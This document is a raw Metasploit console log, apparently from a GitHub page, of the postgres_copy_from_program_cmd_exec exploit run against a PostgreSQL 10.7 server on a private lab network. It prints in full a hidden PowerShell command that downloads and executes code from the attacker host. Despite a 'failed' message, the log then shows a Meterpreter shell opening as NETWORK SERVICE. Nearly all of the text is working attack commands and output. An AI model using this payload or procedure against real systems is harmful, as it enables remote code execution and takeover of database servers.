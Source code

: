     [*] Started reverse TCP double handler on 192.168.0.18:4456
    [*] 192.168.0.24:5432 - 192.168.0.24:5432 - PostgreSQL 10.7, compiled by Visual C++ build 1800, 32-bit
    [*] 192.168.0.24:5432 - Exploiting...
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable dropped successfully
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable created successfully
    [*] 192.168.0.24     web_delivery - Delivering Payload
    [!] 192.168.0.24:5432 - 192.168.0.24:5432 - Unable to execute query: COPY msftesttable FROM PROGRAM 'powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(''http://192.168.0.18:8080/pUDD5sy8vTTD'');';
    [*] 192.168.0.24:5432 - Exploit Failed
    [*] Exploit completed, but no session was created.
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) >
    [*] Sending stage (179779 bytes) to 192.168.0.24
    [*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.24:50154) at 2019-03-24 17:40:59 +0000

    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show sessions

    Active sessions
    ===============

      Id  Name  Type                     Information                                     Connection
      --  ----  ----                     -----------                                     ----------
      1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ DESKTOP-BHTT8OP  192.168.0.18:4444 -> 192.168.0.24:50154 (192.168.0.24)

    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: NT AUTHORITY\NETWORK SERVICE
    
    
